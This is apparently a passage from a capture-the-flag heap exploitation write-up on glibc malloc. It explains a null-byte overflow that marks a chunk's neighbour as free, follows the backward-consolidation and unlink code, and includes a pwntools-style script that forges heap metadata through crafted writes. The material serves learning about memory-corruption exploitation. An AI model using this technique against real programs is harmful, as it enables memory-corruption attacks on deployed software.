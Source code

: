 ```
```
`r12` points to the data zone of *our* chunk, and the first instruction is picking up the field `prev_size` from *our* header. `r13` was pointing to *our* headers, so decreasing it by `prev_size` would make it point to the headers of the previous chunk, if only that `prev_size` were real..., unfortunately we've just overflowed from there into the `size` field, so we have 0xa41414141414141 as `prev_size`. It then dereferences `r13` trying to access the previous chunk's `size`, which obviously segfaults. What is happening exactly? Why is this happening to me?

*Why* does it happen to me, I dunno, but this is *what*'s happening exactly:
```c
        /* consolidate backward */
        if (!prev_inuse(p)) {
            prevsize = prev_size (p);
            size += prevsize;
            p = chunk_at_offset(p, -((long) prevsize));
            unlink(av, p, bck, fwd);
        }
```
By overwriting the least significant byte of *our* chunk's size with a NUL we marked the previous one as free, and thus tries to merge them. But what is the problem? The previous chunk is free for real, I promise! The problem is that when a tcache chunk (or fastchunk) is freed, `free()` doesn't place its size in the `prev_size` of the next one; it also doesn't clear the `PREV_INUSE` bit in the `size` of the next one —precisely to avoid this exact problem. We could just place the size of the previous chunk in our `prev_size` after overflowing, something like this
```python
### Insert a chunk in unsorted ###
log.info("Allocating 0x20")
r.write(b"A" * (0x20 - 8) + b'\0'); sleep(deltat)
log.info("Allocating 0x110")
# Write the minimum amount necessary to allocate this size, because we are going
# to use the NULs that are there or we're gonna end up with a size too great.
r.write(b"A" * (0x110 - 23) + b'\0'); sleep(deltat)
log.info("Allocating 0x20 (overflowing)")
r.write(b"A" * (0x20 - 9) + b'\n' + b'\0'); sleep(deltat)
log.info("Allocating 0x20 (placing nulls)")
r.write(b"A" * (0x20 - 10) + b'\n' + b'\0'); sleep(deltat)
r.write(b"A" * (0x20 - 11) + b'\n' + b'\0'); sleep(deltat)
r.write(b"A" * (0x20 - 12) + b'\n' + b'\0'); sleep(deltat)
r.write(b"A" * (0x20 - 13) + b'\n' + b'\0'); sleep(deltat)
r.write(b"A" * (0x20 - 14) + b'\n' + b'\0'); sleep(deltat)
r.write(b"A" * (0x20 - 15) + b'\n' + b'\0'); sleep(deltat)
r.write(b"A" * (0x20 - 16) + b'\n' + b'\0'); sleep(deltat)
r.write(b"A" * (0x20 - 16) + p8(0x20) + b'\0'); sleep(deltat)
log.info("Allocating 0x110")
# This will place 0x21 in the fake next size
r.write(b"A" * 0xf8 + p8(0x21) + b'\0'); sleep(deltat)
```
but now we segfault only a bit later, because it's dereferencing the pointer of the previous chunk, and it just seems that this problems are never going to end (my life is exactly the same but I can't do anything 'bout it), so we better just pause for a second and analyze the situation. Let's see how `unlink()` works (I'll remove the largebin part because it doesn't apply to us).
```c
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {                                            \
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
        malloc_printerr ("corrupted size vs. prev_size");                     \
    FD = P->fd;                                                               \
    BK = P->bk;                                                               \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                     \
        malloc_printerr ("corrupted double-linked list");                     \
    else {                                                                    \
        FD->bk = BK;                                                          \
        BK->fd = FD;                                                          \
        if (!in_smallbin_range (chunksize_nomask (P))                         \
```